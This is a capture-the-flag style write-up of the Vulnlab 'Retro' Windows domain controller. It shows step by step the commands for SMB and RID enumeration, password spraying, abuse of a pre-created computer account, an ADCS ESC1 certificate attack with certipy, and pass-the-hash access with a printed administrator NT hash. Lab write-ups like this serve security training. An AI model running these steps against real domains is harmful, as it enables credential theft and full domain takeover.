

+++
title = 'Retro Vulnlab'
date = 2024-10-23T11:47:18-04:00
draft = false
tags = ["ADCS"]
categories = ["Red Team"]
+++

## TLDR
[Nmap](#nmap)🔗\
[SMB enum](#smb-enum)🔗\
[Users list dump](#users-list-dump)🔗\
[Diving to pre created computer account](#diving-to-pre-created-computer-account)🔗\
[ADCS](#adcs)🔗\
[Exploitation of ESC1](#exploitation-of-esc1)🔗\

In this post we will learn ADCS attack (ESC1) and pre-created computer accounts.


## Nmap

Using nmap we can scan the machine to understand which ports/services are open
```sql
nmap -sC -sV -T4 -oN nmap.txt 10.10.81.246
```

After getting results we can see ports/services on the host
```sql
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-23 13:09 EDT
Nmap scan report for 10.10.81.246
Host is up (0.10s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-23 17:09:57Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-10-23T16:58:37
|_Not valid after:  2025-10-23T16:58:37
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-10-23T16:58:37
|_Not valid after:  2025-10-23T16:58:37
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-10-23T16:58:37
|_Not valid after:  2025-10-23T16:58:37
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-10-23T16:58:37
|_Not valid after:  2025-10-23T16:58:37
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.retro.vl
| Not valid before: 2024-10-22T17:07:20
|_Not valid after:  2025-04-23T17:07:20
| rdp-ntlm-info:
|   Target_Name: RETRO
|   NetBIOS_Domain_Name: RETRO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: retro.vl
|   DNS_Computer_Name: DC.retro.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-10-23T17:10:38+00:00
|_ssl-date: 2024-10-23T17:11:17+00:00; -1s from scanner time.
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-10-23T17:10:40
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.62 seconds
```
So, it is a DC and has **dc.retro.vl** full name. We should add it to **/etc/hosts** file.


Also, we can see that in that host running **kerberos**, **smb**, **ldap** and **rdp**.


## SMB Enum

Now we can start from enumeration of **smb**.\
Using **netexec** we can enumerate shares.

```sql
netexec smb dc -u '' -p '' --shares
```


\
As you can see we can perform **null authenticating**, but we can not access to the shares.\
Instead of we can try to use **guest** user (without password)


```sql
netexec smb dc -u 'guest' -p '' --shares
```


\
Now we can enumerate the shares. There are possible methods:
- Using netexec's **spider_plus** module;
- Using impacket's **smbclient** script;
- Using general **smbclient** tool.

Let's try with impacket-smbclient.
```sql
impacket-smbclient retro.vl/guest@dc -no-pass
```


\
Inside **Trainees** share we found Important.txt file. It is a message from admins.

## Users List Dump

Now let's try to dump list of users and try to spray usersnames as passwords. Maybe if we are lucky we will get a hit.
\
Using **--users** option of netexec does not give anything
```sql
netexec smb dc -u 'guest' -p '' --users
```


\
But, there is another method, which is **bruting RIDs**. Netexec hash a option **--rid-brute maxRidValue.** Let's try to use it.

```sql
netexec smb dc -u 'guest' -p '' --rid-brute 10000
```


\
Now we have a list of users, groups and aliasses. We need to geet a list users and we can use that command to get grep only users.
```sql
echo 'Content' | | cut -d '\' -f2 | cut -f1 -d ' '
```

After getting the usernames lists we can perform spraying usernames.\
In netexec just use users list as username and password.

```sql
netexec smb dc -u users.txt -p users.txt --continue-on-success --no-bruteforce
```


\
We have one hit. User trainee has password trainee. So, it is time to enumerate using trainee user.

```sql
netexec smb dc -u trainee -p trainee --shares
```


\
Trainee user has READ permissions for Notes share, which is interesting. Let's check using impacket-smbclient.

```sql
impacket-smbclient retro.vl/trainee:trainee@dc
```


\
In the Notes share we see the ToDo.txt file. After reading it we can understand that there was an incident. Also, James talked about pre created computer account which sounds interesting. 


## Diving to pre created computer account
After some enumeration I found a post from [trustedsec](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts). After reading that post I found interesting that for the pre created computer account used password as the name of the pre created computer account. For example we have a computer account banking$, what if we will try to use the password banking. So, let's try.

```sql
netexec smb dc -u banking$ -p banking
```


\
Nice!\
We got an error **STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT** not like login failure or something like that. But how it can help us? 


## ADCS 

After a little bit enum, I found the **adcs** module of netexec.

```sql
netexec ldap dc -u trainee -p trainee -M adcs
```


\
Interesting. We have ADCS on the DC. So, we can use **certipy** to get some information about the certificate center and maybe get some vulnerable templates.

```sql
certipy find -u trainee@retro.vl -p trainee -target dc.retro.vl -enabled -stdout -vulnerable
```


\
And we found a vulnerable template and only **Domain Computers** can enroll it. So it is **ESC1**. After reading about **ESC1** from certipy's [github page](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc1) I understand that we can request a certificate using **-ca (Certificate Authority)**, **-template (Template name)** and **-upn (Alternative UPN)** (for me upn sounds like impersonation).


## Exploitation of ESC1

Using certipy let's ask a certifcate and for the upn let's use Domain Administrator user.
```sql
certipy req -u 'banking$'@retro.vl -p banking -ca retro-DC-CA -template RetroClients -upn Administrator -target dc.retro.vl -key-size 4096
```


\
But we saw an error **rpc_s_access_denied** which is similiar to netexec error for banking$ authentication.\
The best options is just ask a TGT (Ticket Granting Ticket) ticket to banking$ user and using kerberos just perform ESC1 attack.

```sql
impacket-getTGT retro.vl/banking$:banking -dc-ip dc
```


\
Awesome we got a tgt ticket and now it is time to back ESC1. But before we need to set a **KRB5CCNAME** local environment variable and use path to tgt (banking$.ccache) file.

```sql
export KRB5CCNAME=banking\$.ccache
```

```sql
certipy req -u 'banking$'@retro.vl -k -no-pass -ca retro-DC-CA -template RetroClients -upn Administrator -target dc.retro.vl -key-size 4096
```


\
Boom! We got a certificate of Administrator user. To get a **ntlm** hash of that user we need to use **auth** module of certipy.

```sql
certipy auth -pfx administrator.pfx -domain retro.vl
```


\
Awesome! Now we have a nt hash of domain Administrator, and we can just use psexec or wmiexec to read the flags
```sql
impacket-wmiexec retro.vl/Administrator@dc -hashes :252fac7066d93dd009d4fd2cd0368389
```
